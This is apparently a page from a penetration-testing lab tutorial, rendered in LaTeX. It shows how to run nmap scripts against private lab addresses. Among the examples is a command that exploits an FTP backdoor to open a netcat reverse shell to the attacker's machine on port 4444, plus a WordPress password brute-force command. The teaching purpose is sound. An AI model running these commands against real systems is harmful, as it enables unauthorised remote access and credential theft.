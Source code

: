 \documentclass[twocolumn]{article}
\begin{document}
The \texttt{-C} option runs a set of scripts categorized as default. Some of these scripts are considered intrusive.

To run a script we use:

\texttt{\# nmap --script=<script> [--script-args=<script arguments>] \{target\}}

\subsection{Examples}

\texttt{\# nmap --script=vuln 192.168.56.16}

This will run all the scripts in the category vulnerability against the target. \\

\texttt{\# nmap --script="http-robots*" 192.168.56.16}

This will show the content of the robots.txt file.\\

\texttt{\# nmap -sV --script="ftp-proftpd-backd*" 192.168.56.19}

This will check if the target is vulnerable to a specific vulnerability.\\

\texttt{\# nmap -sV --script="ftp-proftpd-back*" --script-args="cmd=ls" 192.168.56.19}

This will list the content of a directory. We do this by modifying the arguments of the script.\\

\texttt{\# nmap -sV --script="ftp-proftpd-back*" --script-args="cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>\&1|nc 192.168.56.1 4444 >/tmp/f" 192.168.56.19}

This will generate a remote connection back to the attacker's machine. You will need to have a netcat listener at port 4444 in your host machine. In Kali linux, you can use \texttt{nc -lvnp 4444} in a different terminal.\\

\texttt{\# nmap -sV --script="http-wordpress-brute*" --script-args="passdb=./dict.txt"}

This will bruteforce a wordpres login and show matching passwords. You will need to have a dictionary \texttt{dic.txt} with the password you want nmap to try. Kali Linux has plenty of dictionaries in \texttt{/usr/share/seclists/Passwords}

\section{Challenge}
\end{document}
